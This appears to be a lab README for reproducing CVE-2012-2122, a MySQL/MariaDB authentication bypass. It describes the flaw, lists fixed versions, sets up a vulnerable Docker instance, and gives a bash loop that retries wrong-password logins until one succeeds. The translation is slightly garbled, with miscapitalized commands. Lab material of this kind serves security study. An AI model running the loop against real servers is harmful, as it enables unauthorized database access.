

# Mysql Identity Authentication Bypass Vulnerability (CVE-2012-2122)

When MariaDB/MySQL is connected, the entered password will be compared to the expected correct password. Due to incorrect handling, even if memcmp() returns a non-zero value, MySQL will assume that the two passwords are the same. In other words, as long as you know the user name, you can directly log in to the SQL database by trying.

Affected version:

- MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.
- MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

Reference link:

- http://www.freebuf.com/vuls/3815.html
- https://blog.rapid7.com/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/

## Environment Building

After testing, although the environment runs inside the container, whether the vulnerability can be reproduced still has a certain relationship with the host. The host machine is best to choose Ubuntu or Mac system, but I don't know if it will succeed. Please submit more test results in Issue.

Run the following command to start the test environment:

```
Docker-compose up -d
```

After the environment starts, it will start a Mysql service (version: 5.5.23), listen to port 3306, through the normal Mysql client, you can log in directly, the correct root password is 123456.

## Vulnerability verification

If you don't know the correct password in our environment, run the following command under bash and log in successfully after a certain number of attempts:

```bash
For i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```



For more testing and utilization, see the reference link.